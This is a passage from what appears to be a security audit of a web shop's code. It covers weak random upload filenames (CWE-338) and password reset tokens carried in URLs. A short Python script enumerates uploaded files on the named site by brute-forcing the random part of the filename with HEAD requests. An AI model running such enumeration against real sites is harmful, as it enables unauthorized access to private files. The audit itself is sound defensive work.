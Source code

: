 **Severity:** MEDIUM
**CWE:** CWE-338 (Use of Cryptographically Weak PRNG)

#### Current Implementation
```typescript
const timestamp = Date.now();
const randomString = Math.random().toString(36).substring(2, 8);
const filename = `product-${timestamp}-${randomString}.${extension}`;
```

#### Attack Vector - File Enumeration

```python
import requests
import time

# Enumerate uploaded files by predicting filenames
base_url = "https://elucid.london/uploads/products/"

# Known upload time (e.g., from product creation timestamp)
timestamp = 1729774800000

# Math.random() only produces 2.2 billion combinations (6 chars, base-36)
# Can brute force or predict based on timing
found_files = []

for random_part in generate_random_base36_sequences(6):
    filename = f"product-{timestamp}-{random_part}.jpg"
    url = base_url + filename

    response = requests.head(url)
    if response.status_code == 200:
        found_files.append(filename)
        print(f"Found: {filename}")

print(f"Discovered {len(found_files)} files")
```

**Impact:**
- Unauthorized access to uploaded product images
- Intellectual property theft
- Unreleased product leaks

---

## Medium-Risk Findings

### 🟡 Password Reset Token in URL

**Severity:** MEDIUM
**File:** `app/api/auth/reset-password/route.ts`

#### Issue
Password reset tokens are sent as URL parameters:
```
https://elucid.london/reset-password?token=abc123...
```

